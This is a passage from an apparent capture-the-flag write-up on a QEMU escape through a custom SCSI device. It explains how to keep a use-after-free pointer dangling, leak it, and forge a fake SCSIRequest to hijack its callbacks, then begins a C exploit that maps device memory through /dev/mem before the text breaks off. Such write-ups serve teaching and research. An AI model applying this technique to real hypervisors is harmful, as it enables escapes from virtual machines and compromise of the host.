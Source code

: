 It was a bit of a struggle to find the exact CDB and it's parameters for my request to not reach a completed status because once the request has been completed by one reason or another (invalid opcodes/parameters or command for the type of device) the Bus will execute the `ctf_request_complete` callback. Which we need to avoid if we want to keep the cur_req pointer from being NULL-ed. A combination of static and dynamic analysis of [scsi_req_new](https://github.com/moyix/panda/blob/master/qemu/hw/scsi-bus.c#L472) and [scsi_target_send_command](https://github.com/moyix/panda/blob/master/qemu/hw/scsi-bus.c#L378) helped me with that.

To find out the target SCSI Device on the system we can use the following commands.

{% highlight bash %}
/ # cat /proc/scsi/scsi
Attached devices:
Host: scsi1 Channel: 00 Id: 00 Lun: 00
  Vendor: QEMU     Model: QEMU DVD-ROM     Rev: 2.5+
  Type:   CD-ROM                           ANSI  SCSI revision: 05
/ # lsscsi
[1:0:0:0]	(5)	QEMU	QEMU DVD-ROM	2.5+
{% endhighlight %}

Once we have a dangling pointer, we need to leak it using the authentication feature. This needs to be performed quickly because QEMU can allocate this buffer for something else before we get ahold of it. To control a sized allocation I used `ctf_add_cmd_data`, the function also writes into the allocated buffer at the same time, so we need to have all the leaks ready and know how to create a fake `SCSIRequest` structure so we can control it's `ops` (callbacks). In my case I used `SCSIRequest->ops->get_buf` and invoked it from `ctf_transfer_data`. See the full exploit with comments for details about each step.

## Full exploit

{% highlight C %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <stdbool.h>

#define PAGEMAP_LENGTH sizeof( size_t )

typedef struct _CTF_req_head {
    char id;
    char channel;
    char lun;
    int cdb_len;
    int type;
    char cdb[0];
} CTF_req_head;

unsigned int mmio_addr = 0xfebf1000;
unsigned int mmio_size = 0x1000;
char* mmio = 0;

void* devmap( size_t offset )
{
    int fd = open( "/dev/mem", O_RDWR | O_SYNC );
    if ( fd == -1 ) {
        puts( "ERROR: /dev/mem" );
        return 0;
    }

    void* result = mmap( NULL, mmio_size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, mmio_addr );

    if ( !result ) {